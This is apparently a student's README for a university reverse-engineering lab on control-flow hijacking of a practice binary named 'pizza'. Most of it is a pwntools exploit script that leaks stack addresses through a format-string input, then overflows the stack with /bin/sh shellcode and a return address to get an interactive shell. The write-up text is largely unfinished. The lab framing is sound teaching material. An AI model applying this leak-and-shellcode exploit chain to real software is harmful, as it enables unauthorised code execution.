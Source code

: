 # Control Flow Integrity Violation

## Summary of the assignment
Before we started this assignment we had to do some preliminary tasks to get started...

* Install pwntools.
* Download the victim program "pizza".
* Attempt to run and crash the program successfully or get the "segmentation fault".
* Open the victim program and analyze it in Ghidra.

Then we can start to write a Python transcript from the sample in order to crash the code and analyze the core dump.

## Script and Explanation

### Python Script
```python
#!/usr/bin/env python3
from pwn import *

# Stack Printing
def stackPrint(core, num = 20):
    rsp = core.rsp
    print("Stack")
    x = num // 2
    addresses = []
    # calculation and storing of the first half of the memory addresses
    for i in range(x, 0, -1):
        tmp = rsp + 8 * i
        addresses.append(tmp)

    # Print first address
    for addr in addresses:
        print(f"{addr:x}\t{core.read(addr, 8)}")

    # Print Stack Pointer
    print(f"{rsp:x}\t{core.read(rsp, 8)} <<<<< RSP")

    # Print second half
    for i in range(x -1, 0, -1):
        tmp = rsp -8 * i
        print(f"{tmp:x}\t{core.read(tmp, 8)}")
    
    stackPrint(core, num=10)

#context.log_level = 'error'

# Executable and Linkable Format
elf = ELF("./pizza")

context(arch='amd64', os='linux', endian='little', word_size=64)

#getname_address = elf.symbols["getname"]

shellcode = asm(shellcraft.amd64.linux.sh())

#print(f"Shellcode: {shellcode.hex().upper()}")
#print(len(shellcode))
victim = process("./pizza")

input1 = b"%p %p %p %p %p %p %p %p %p"



print(str(victim.recvline(), "latin-1"))
victim.sendline(input1)

var = str(victim.recvline(), "latin-1")
print(var)

# Substract offsetto the start of shellcode
addr = int(var.split(" ")[7],16) -112

input2 = shellcode + b"T"*88 + addr.to_bytes(8, 'little')
var = str(victim.recvline(), "latin-1")
victim.sendline(b"4")

victim.sendline(input2)

victim.interactive()

victim.wait()

exit()
```

### Explanation and Screenshots
In order to crash the victim program we had to...

#### Screenshot
![Screenshot from 2024-05-03 12-20-21](https://github.com/erickn02/CS479-579-Reverse-Engineering-at-NMSU/assets/111537523/bee9e809-b836-4ec0-a301-0f69fec5ddac)


